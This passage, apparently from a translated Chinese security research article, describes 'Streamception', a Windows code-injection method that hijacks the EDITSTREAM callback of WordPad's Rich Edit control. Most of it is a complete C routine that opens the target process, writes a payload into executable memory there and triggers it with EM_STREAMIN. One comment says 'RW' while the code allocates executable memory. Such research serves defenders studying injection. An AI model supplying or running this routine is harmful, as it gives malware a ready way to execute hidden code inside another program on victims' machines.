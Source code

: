 **方法 4：Streamception**

```
typedef struct _editstream {
  DWORD_PTR          dwCookie;
  DWORD              dwError;
  EDITSTREAMCALLBACK pfnCallback;
} EDITSTREAM;
```

当 Rich Edit 空间收到 EM_STREAMIN 消息时，它使用 EDITSTREAM 结构中提供的信息，将数据流传入或传出控件。pfnCallback 字段的类型为 EDITSTREAMCALLBACK，可以指向内存中的 Payload。我们确保 EDITSTREAMCALLBACK 会返回一个非零值，从而指示错误的存在，但最终，Rich Edit 空间中的内容仍然会被删除。这一方法可以正常工作，但不会破坏现有的缓冲流。我们推测，可能有方法能够解决这一问题，但目前我们仍然在深入调查的过程中。

该方法的具体步骤如下：

1. 获取窗口句柄；
2. 获取进程 ID 并尝试打开进程；
3. 分配 RWX 内存，并在该位置复制 Payload；
4. 分配 RW 内存，并在该位置复制 EDITSTREAM 结构；
5. 使用 EM_STREAMIN 触发 Payload；
6. 释放内存并关闭进程句柄。

```
VOID streamception(LPVOID payload, DWORD payloadSize) {
    HANDLE        hp;
    DWORD         id;
    HWND          wpw, rew;
    LPVOID        cs, ds;
    SIZE_T        rd, wr;
    EDITSTREAM    es;
   
    // 1. Get window handles
    wpw = FindWindow(L"WordPadClass", NULL);
    rew = FindWindowEx(wpw, NULL, L"RICHEDIT50W", NULL);
   
    // 2. Obtain the process id and try to open process
    GetWindowThreadProcessId(rew, &id);
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id);
 
    // 3. Allocate RWX memory and copy the payload there.
    cs = VirtualAllocEx(hp, NULL, payloadSize,
        MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);
 
    // 4. Allocate RW memory and copy the EDITSTREAM structure there.
    ds = VirtualAllocEx(hp, NULL, sizeof(EDITSTREAM),
        MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
       
    es.dwCookie    = 0;
    es.dwError     = 0;
    es.pfnCallback = cs;
   
    WriteProcessMemory(hp, ds, &es, sizeof(EDITSTREAM), &wr);
   
    // 5. Trigger payload with EM_STREAMIN
    SendMessage(rew, EM_STREAMIN, SF_TEXT, (LPARAM)ds);
 
    // 6. Free memory and close process handle
    VirtualFreeEx(hp, ds, 0, MEM_DECOMMIT | MEM_RELEASE);
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
    CloseHandle(hp);
}
```
